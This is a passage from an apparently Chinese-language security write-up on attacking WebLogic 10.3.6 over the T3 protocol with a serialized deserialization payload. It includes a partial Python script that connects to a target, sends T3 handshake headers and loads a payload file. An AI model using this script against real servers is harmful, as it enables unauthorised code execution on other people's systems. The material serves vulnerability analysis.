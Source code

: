 [![](assets/1708095409-27d60b55083f682267ab342e44301b20.png)](https://xzfile.aliyuncs.com/media/upload/picture/20211121234558-1ed9a7d6-4ae2-1.png)

## T3 协议攻击示例

本次调试分析源码所使用的 weblogic 版本为 10.3.6

### 1、生成序列化 payload

[![](assets/1708095409-8dba87905f5f1794b0eaae4fc891a315.png)](https://xzfile.aliyuncs.com/media/upload/picture/20211121234530-0e4cb2be-4ae2-1.png)

### 2、编写发送数据的脚本

这里笔者在网上找了一份 pyhton 的

```bash
#!/usr/bin/python
import socket
import struct
import sys

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_address = (sys.argv[1], int(sys.argv[2]))
print 'connecting to %s port %s' % server_address
sock.connect(server_address)

# Send headers
headers='t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://us-l-breens:7001\n\n'
print 'sending "%s"' % headers
sock.sendall(headers)

data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data
payloadObj = open(sys.argv[3],'rb').read()

```